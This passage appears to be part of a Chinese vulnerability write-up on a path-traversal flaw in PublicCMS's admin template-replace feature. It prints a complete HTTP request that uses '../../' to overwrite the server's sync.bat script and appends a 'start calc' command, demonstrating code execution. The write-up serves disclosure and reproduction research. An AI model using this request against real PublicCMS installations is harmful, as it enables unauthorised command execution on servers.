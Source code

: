 查看文件后发现模板和脚本都在 `publiccms` 目录下，且路径为：

```php
\publiccms\template\site_id\xx\xx
\publiccms\script\sync.bat
```

整体跟下来发现未对替换的文件路径做限制，所以我们可以利用 `../../` 从当前目录穿越到脚本文件目录下，然后替换系统脚本文件内容。

## 0x02 漏洞复现

1、构造数据包修改脚本文件内容(这里演示在Windows系统上对bat脚本内容的替换操作)

```php
POST /publiccms_war/admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 226
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446; JSESSIONID=BA166C749709B8766689F349339FEA73; PUBLICCMS_ANALYTICS_ID=bf9f77eb-31db-4888-8d82-4b1e05fc7c39
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&word=echo%20%22repo%20not%20config!%22&replace=echo%20%22repo%20not%20config!%22%20%26%20start%20calc&replaceList%5B0%5D.path=../../script/sync.bat&replaceList%5B0%5D.indexs=0
```

成功替换内容：

![image-20230927170935297](assets/1698896095-be5aa52be1ea801877cb78afe4d62e5a.jpg)

2、执行脚本，触发命令

![image-20230927171124902](assets/1698896095-f7c55acdf8a2cf40e47a413dac86eadb.jpg)
